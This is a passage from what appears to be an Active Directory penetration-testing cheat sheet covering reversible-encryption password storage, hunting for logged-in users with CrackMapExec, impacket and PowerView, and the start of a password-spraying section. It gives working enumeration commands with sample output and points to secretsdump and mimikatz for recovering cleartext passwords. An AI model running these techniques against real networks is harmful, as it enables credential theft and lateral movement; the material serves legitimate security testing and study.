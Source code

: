 
### NTDS Reversible Encryption

`UF_ENCRYPTED_TEXT_PASSWORD_ALLOWED` ([0x00000080](http://www.selfadsi.org/ads-attributes/user-userAccountControl.htm)), if this bit is set, the password for this user stored encrypted in the directory - but in a reversible form.

The key used to both encrypt and decrypt is the SYSKEY, which is stored in the registry and can be extracted by a domain admin.
This means the hashes can be trivially reversed to the cleartext values, hence the term “reversible encryption”.

* List users with "Store passwords using reversible encryption" enabled
    ```powershell
    Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl
    ```

The password retrieval is already handled by [SecureAuthCorp/secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) and mimikatz, it will be displayed as CLEARTEXT. 


## User Hunting

Sometimes you need to find a machine where a specific user is logged in.    
You can remotely query every machines on the network to get a list of the users's sessions.

* CrackMapExec
  ```ps1
  cme smb 10.10.10.0/24 -u Administrator -p 'P@ssw0rd' --sessions
  SMB         10.10.10.10    445    WIN-8OJFTLMU1IG  [+] Enumerated sessions
  SMB         10.10.10.10    445    WIN-8OJFTLMU1IG  \\10.10.10.10            User:Administrator
  ```
* Impacket Smbclient
  ```ps1
  $ impacket-smbclient Administrator@10.10.10.10
  # who
  host:  \\10.10.10.10, user: Administrator, active:     1, idle:     0
  ```
* PowerView Invoke-UserHunter
  ```ps1
  # Find computers were a Domain Admin OR a specified user has a session
  Invoke-UserHunter
  Invoke-UserHunter -GroupName "RDPUsers"
  Invoke-UserHunter -Stealth
  ```


## Password spraying

Password spraying refers to the attack method that takes a large number of usernames and loops them with a single password. 

> The builtin Administrator account (RID:500) cannot be locked out of the system no matter how many failed logon attempts it accumulates. 
